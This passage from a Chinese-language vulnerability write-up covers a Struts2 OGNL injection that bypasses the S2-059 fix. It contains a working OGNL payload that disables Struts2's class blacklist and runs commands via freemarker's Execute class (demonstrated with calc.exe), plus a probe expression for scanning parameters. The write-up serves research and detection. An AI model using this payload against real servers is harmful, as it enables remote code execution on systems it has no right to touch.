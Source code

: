 ```
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
```

> 注意：请使用url对以上的OGNL代码编码后，再在工具上使用。

 

## 检测思路

在新版本的struts2中，已经不能通过参数构造来解析ognl表达式了，所以如果考虑想要使用脚本来进行批量扫描是否有本漏洞的时候，可以考虑直接爆破所有参数，然后判断页面中是否有预计的结果文本即可。

比如：

 %{ ‘gcowsec-‘ + (2000 + 20).toString()}

预计会得到

 gcowsec-2020

使用脚本判断结果中是否包含就可以了

 

## 总结

此次漏洞只是`S2-059`修复的一个绕过，并且本次利用的核心类`org.apache.commons.collections.BeanMap`在`commons-collections-x.x.jar`包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，但是如果没有使用这个依赖包，也还是没办法进行利用。